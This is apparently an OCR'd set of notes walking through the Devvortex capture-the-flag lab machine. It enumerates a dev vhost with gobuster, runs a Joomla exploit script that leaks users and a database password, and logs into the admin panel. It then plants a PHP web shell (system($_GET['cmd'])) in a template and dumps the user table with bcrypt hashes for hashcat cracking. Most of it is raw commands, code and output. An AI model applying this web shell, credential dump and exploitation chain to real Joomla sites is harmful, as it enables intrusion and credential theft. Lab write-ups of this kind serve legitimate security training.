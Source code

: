 #add domain devvortex.htb to hosts dns file

https://github.com/OJ/gobuster/releases

./gobuster vhost -u devvortex.htb -t 50 -w ../subdomains-top1million-5000.txt --append-domain

dev.devvortex.htb

gem install httpx
gem install docopt
gem install paint
ruby joomla.rb http://dev.devvortex.htb
	Users
	[649] lewis (lewis) - lewis@devvortex.htb - Super Users
	[650] logan paul (logan) - logan@devvortex.htb - Registered

	Site info
	Site name: Development
	Editor: tinymce
	Captcha: 0
	Access: 1
	Debug status: false
	
	Database info
	DB type: mysqli
	DB host: localhost
	DB user: lewis
	DB password: P4ntherg0t1n5r3c0n##
	DB name: joomla
	DB prefix: sd4fg_
	DB encryption 0

http://dev.devvortex.htb/administrator

Edit any php template file, example: offline.php
	if (isset($_GET["cmd"])){
	  system($_GET['cmd']);
	}

	http://dev.devvortex.htb/templates/cassiopeia/offline.php?cmd=ls

	error_reporting(E_ALL);
	ini_set('display_errors', 1);
	
	$dbhandle = mysqli_connect("localhost", "lewis", "P4ntherg0t1n5r3c0n##", "joomla");
	$result = mysqli_query($dbhandle, "SELECT * from sd4fg_users");
	
	while ($row = mysqli_fetch_array($result)) {
		var_dump($row);
	}

	array(34) { [0]=> string(3) "649" ["id"]=> string(3) "649" [1]=> string(5) "lewis" ["name"]=> string(5) "lewis" [2]=> string(5) "lewis" ["username"]=> string(5) "lewis" [3]=> string(19) "lewis@devvortex.htb" ["email"]=> string(19) "lewis@devvortex.htb" [4]=> string(60) "$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u" ["password"]=> string(60) "$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u" [5]=> string(1) "0" ["block"]=> string(1) "0" [6]=> string(1) "1" ["sendEmail"]=> string(1) "1" [7]=> string(19) "2023-09-25 16:44:24" ["registerDate"]=> string(19) "2023-09-25 16:44:24" [8]=> string(19) "2023-11-29 14:24:28" ["lastvisitDate"]=> string(19) "2023-11-29 14:24:28" [9]=> string(1) "0" ["activation"]=> string(1) "0" [10]=> string(0) "" ["params"]=> string(0) "" [11]=> NULL ["lastResetTime"]=> NULL [12]=> string(1) "0" ["resetCount"]=> string(1) "0" [13]=> string(0) "" ["otpKey"]=> string(0) "" [14]=> string(0) "" ["otep"]=> string(0) "" [15]=> string(1) "0" ["requireReset"]=> string(1) "0" [16]=> string(0) "" ["authProvider"]=> string(0) "" } array(34) { [0]=> string(3) "650" ["id"]=> string(3) "650" [1]=> string(10) "logan paul" ["name"]=> string(10) "logan paul" [2]=> string(5) "logan" ["username"]=> string(5) "logan" [3]=> string(19) "logan@devvortex.htb" ["email"]=> string(19) "logan@devvortex.htb" [4]=> string(60) "$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12" ["password"]=> string(60) "$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12" [5]=> string(1) "0" ["block"]=> string(1) "0" [6]=> string(1) "0" ["sendEmail"]=> string(1) "0" [7]=> string(19) "2023-09-26 19:15:42" ["registerDate"]=> string(19) "2023-09-26 19:15:42" [8]=> NULL ["lastvisitDate"]=> NULL [9]=> string(0) "" ["activation"]=> string(0) "" [10]=> string(151) "{"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"}" ["params"]=> string(151) "{"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"}" [11]=> NULL ["lastResetTime"]=> NULL [12]=> string(1) "0" ["resetCount"]=> string(1) "0" [13]=> string(0) "" ["otpKey"]=> string(0) "" [14]=> string(0) "" ["otep"]=> string(0) "" [15]=> string(1) "0" ["requireReset"]=> string(1) "0" [16]=> string(0) "" ["authProvider"]=> string(0) "" }

	lewis
	$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u

	logan
	$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12

	Crack joomla password (bcrypt)
	https://hashcat.net/forum/thread-10645.html
